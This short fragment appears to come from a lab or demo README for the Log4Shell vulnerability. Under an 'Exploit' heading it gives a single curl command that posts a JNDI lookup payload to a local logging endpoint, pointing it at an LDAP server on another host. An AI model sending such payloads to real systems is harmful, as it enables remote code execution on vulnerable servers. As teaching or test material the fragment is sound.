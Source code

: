 ## Exploit
```curl -H 'Content-Type: text/plain' --data '${jndi:ldap://172.17.0.1:1389/a}' http://localhost:8080/log```
